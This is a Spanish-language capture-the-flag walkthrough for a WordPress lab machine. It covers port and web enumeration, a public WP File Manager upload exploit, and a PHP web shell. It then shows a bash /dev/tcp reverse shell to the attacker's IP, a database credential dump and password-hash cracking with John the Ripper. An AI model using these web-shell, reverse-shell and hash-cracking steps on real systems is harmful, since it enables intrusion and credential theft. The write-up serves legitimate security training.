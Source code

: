 #WordPress #RCE #ReverseShell #MySQL #BruteForce 
[[192.168.1.19 (Atacante)]]

--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios y en usuario `hagrid98` encontramos el primer horocrux(Flag)

Para acceder a la información del wordpres buscamos en la ruta `cat /etc/apache2/sites-enabled/wordpress.conf`, y este nos dirá en donde se encuentra alojado el wordpress, que es en:
`/usr/share/wordpress`

En el `wp-config.php` no encontramos ninguna contraseña pero vemos que este esta llamando a `/etc/wordpress/config-default.php` así que lo leemos para ver que contiene

Y encontramos las credenciales del usuario root de la base de datos del wordpress `root::mySecr3tPass`

Nos conectamos en la base de datos `mysql -uroot -p` y cuando nos pida la contraseña la introducimos, listaremos las bases de datos:
`show databases;` vemos que hay una llamada wordpress, navegamos a ella
`use wordpress;` vemos las tablas que contiene
`show tables;` vemos la tabla `wp_users` así que listamos su contenido
`describe wp_users;` y seleccionaremos todo los que hay dentro de esta tabla
`select * from wp_users;` nos mostrara los usuarios con sus contraseñas las cuales se pueden crakear por fuerza bruta, nos la copiamos en un fichero llamado `hash` para intentar crackearlo con fuerza bruta.

Usaremos la herramienta [[JOHN THE RIPPER]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash `

Nos devolverá las credenciales del usuario `hagrid98::password123`

Nos podremos conectar con el usuario por `SSH`
``





